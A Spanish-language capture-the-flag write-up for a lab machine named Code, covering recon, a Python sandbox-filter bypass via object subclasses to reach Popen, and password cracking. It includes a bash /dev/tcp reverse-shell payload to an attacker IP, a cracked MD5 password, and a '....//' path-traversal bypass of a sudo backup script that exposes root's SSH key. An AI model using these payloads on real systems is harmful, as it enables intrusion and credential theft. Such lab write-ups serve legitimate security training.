---

# Descripcion

En este writeup de la máquina Code, comenzamos enumerando un entorno web en Python/Gunicorn ejecutándose en el puerto 5000. Tras evadir los filtros de seguridad de la aplicación mediante introspección de subclases en memoria para invocar Popen, obtenemos una reverse shell. En la enumeración interna extraemos credenciales desde una base de datos SQLite y crackeamos el hash MD5 del usuario martin. Finalmente, escalamos privilegios a root explotando un Path Traversal (....//) en el script backy.sh para extraer su clave privada id_rsa.

---

# Reconocimiento

## Namp

> Iniciamos la fase de reconocimiento realizando un escaneo completo de todos los puertos TCP abiertos (`-p-`) con un envío rápido de paquetes (`--min-rate 5000`), omitiendo el descubrimiento de host (`-Pn`) y la resolución DNS (`-n`) mediante un escaneo SYN (`-sS`):

```bash
nmap -p- --open --min-rate 5000 -Pn -n -sS -v 10.129.231.240
```



> Una vez identificados los puertos abiertos (`22` y `5000`), ejecutamos los scripts por defecto de Nmap (`-sC`) y enumeramos las versiones de los servicios (`-sV`):

```bash
nmap -p22,5000 -sC -sV 10.129.231.240
```



## Web

> Analizamos las tecnologías empleadas en el servicio web que corre en el puerto `5000` utilizando `whatweb`:

```bash
whatweb [http://code.htb:5000](http://code.htb:5000)
```



- Web



# Shell como app-production

## Bypass filtro

> Probamos a registrarnos en la plataforma. Al observar que el entorno estaba desarrollado en `Python` corriendo sobre `Gunicorn`, intentamos explotar una vulnerabilidad de tipo `SSTI` (Server-Side Template Injection) al guardar el código probando varios `payloads`, pero no funcionó. Posteriormente, intentamos realizar un `bypass` interceptando la petición de ejecución con Burp Suite, aunque tampoco dio resultado. Finalmente, optamos por evadir las restricciones del filtro de seguridad implementado para bloquear la ejecución de comandos o módulos peligrosos.





> Estas y muchas otras palabras clave estaban vetadas por la aplicación. Investigando cómo evadir estas restricciones en entornos restringidos de Python, encontramos que el intérprete mantiene las clases y subclases cargadas en memoria desde la clase base `object`, por lo que no necesitamos utilizar la sentencia `import`. De este modo, podemos recorrer dichas subclases en memoria hasta localizar `subprocess.Popen` y referenciarla concatenando cadenas de texto (`'Pop'+'en'`) para evitar su nombre original y evadir así el filtro de seguridad.

```python
for po_pen in ().__class__.__base__.__subclasses__():
    if 'Pop'+'en' in str(po_pen):
        p = po_pen(['id'], stdout=-1)
        print(p.communicate()[0].decode())
```

> Este script es una prueba de concepto básica para confirmar la ejecución remota de comandos mostrando la salida del comando `id` en consola. Antes de modificarlo para enviarnos una `reverse shell`, desglosamos su funcionamiento:

1. Creamos un bucle `for` que itera sobre todas las subclases de `object` cargadas actualmente en memoria mediante `().__class__.__base__.__subclasses__()`.
2. Filtramos aquellas cuya representación en cadena coincida con `'Pop'+'en'` (evadiendo la detección de la palabra exacta `Popen`).
3. Una vez localizada la clase `Popen`, la instanciamos pasando el comando que deseamos ejecutar en el sistema.



---

## RCE

> Una vez confirmada la ejecución de comandos, modificamos ligeramente el script para entablar una `reverse shell` hacia nuestra máquina atacante.

- Nos ponemos en escucha en el puerto `7777` con `netcat`:

```bash
nc -nvlp 7777
```

- Ejecutamos el siguiente payload en el editor web:

```python
for po_pen in ().__class__.__base__.__subclasses__():
    if 'Pop'+'en' in str(po_pen):
        print(po_pen)
        po_pen('bash -c "bash -i >& /dev/tcp/10.10.14.154/7777 0>&1"', shell=True)
```



---

# Shell como martin

## Enumeracion

> Con acceso al sistema, listamos los usuarios disponibles revisando el directorio `/home` y el archivo `/etc/passwd`:

```bash
ls -la /home
cat /etc/passwd | grep "sh"
```





> Identificamos dos usuarios con consola válida: `app-production` y `martin`. Al revisar el directorio personal de `app-production`, encontramos un archivo `user.txt` junto con la carpeta `app`, donde se alojan los archivos de la aplicación web. Sin embargo, la flag contenida en este archivo no es válida, por lo que todo apunta a que se trata de un señuelo y la flag real se encuentra bajo el usuario `martin`.



> Inspeccionamos los archivos dentro del directorio de la aplicación web:

```bash
ls -la
```



> Accedemos al directorio `instance` y descubrimos una base de datos SQLite (`database.db`). La abrimos para listar sus tablas:

## Recuperando contraseña

```bash
sqlite3 database.db 
.tables
```





- Consultamos los registros almacenados en la tabla `user`:

```sql
select * from user;
```



> Obtenemos las credenciales del usuario `martin` con su contraseña hasheada en formato `MD5`. Guardamos el hash en un archivo e intentamos crackearlo mediante fuerza bruta con `John the Ripper` y el diccionario `rockyou.txt`:

```bash
echo 3de6f30c4a09c27fc71932bfc68474be > hash.txt

sudo john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```



```text
user: martin
pass: nafeelswordsmaster
```
## SSH

> Probamos a autenticarnos vía `SSH` utilizando las credenciales obtenidas:

```bash
ssh martin@10.129.231.240
```



---

# Shell como root

## Enumeracion

> Una vez dentro como `martin`, comprobamos nuestros privilegios `sudo` para ver qué comandos podemos ejecutar como administrador:

```bash
sudo -l
```



> Observamos que podemos ejecutar `/usr/bin/backy.sh` como `root` sin contraseña. Analizamos el código fuente del script y el archivo de configuración `task.json` asociado:

- Análisis de `/usr/bin/backy.sh`:

```sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

- Contenido de `task.json`:

```json
{
	"destination": "/home/martin/backups/",
	"multiprocessing": true,
	"verbose_log": false,
	"directories_to_archive": [
		"/home/app-production/app"
	],

	"exclude": [
		".*"
	]
}
```

> Este script automatiza la creación de copias de seguridad (`backups`) leyendo la configuración desde `task.json`, restringiendo los directorios permitidos únicamente a rutas que comiencen por `/home/` o `/var/`. Si intentamos realizar un ataque de `Path Traversal` convencional como `/var/../root`, entra en juego la siguiente línea de sanitización:

```json
updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")
```

> Esta instrucción utiliza `jq` con la función `gsub` para buscar y eliminar cualquier ocurrencia literal de `../`, transformando la ruta en `/home/root` (o `/var/root`). Sin embargo, dado que `gsub` realiza una única pasada de reemplazo no recursiva, podemos evadir este filtro utilizando la secuencia `....//`. Al eliminarse el `../` central, los caracteres restantes se ensamblan formando un nuevo `../`, logrando así el `bypass` del filtro de `Path Traversal` (por ejemplo, `/home/....//root/` se convierte en `/home/../root/`). Procedemos a modificar `task.json` para apuntar al directorio `/root`.



## Lectura de archivos

- Ejecutamos el script `backy.sh` con privilegios de `root` pasándole nuestro archivo `task.json` modificado:

```bash
sudo /usr/bin/backy.sh task.json
```





> Una vez generada la copia de seguridad en `/home/martin/backups/`, descomprimimos el archivo primero con `bzip2` y posteriormente extraemos su contenido con `tar`:

```bash
bzip2 -d code_home__.._root_2026_April.tar.bz2 

tar xvf code_home_.._root_2026_April.tar 
```

> De este modo, obtenemos acceso completo a todo el contenido del directorio `/root`:

```bash
ls -la
```



> Finalmente, revisamos el directorio `.ssh` extraído y encontramos la clave privada `id_rsa` del administrador, lo que nos permite conectarnos directamente por `SSH` como usuario `root`:

